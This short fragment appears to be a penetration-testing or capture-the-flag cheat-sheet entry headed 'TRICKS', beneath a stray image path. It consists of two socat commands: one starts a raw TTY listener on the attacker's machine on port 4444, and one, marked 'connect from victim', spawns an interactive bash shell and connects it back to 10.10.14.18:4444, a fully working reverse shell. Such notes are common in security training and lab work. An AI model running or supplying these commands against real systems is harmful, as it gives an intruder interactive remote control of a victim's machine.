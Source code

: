 TRICKS

listener on your machine:
socat file:`tty`,raw,echo=0 tcp-listen:4444 

connect from victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 

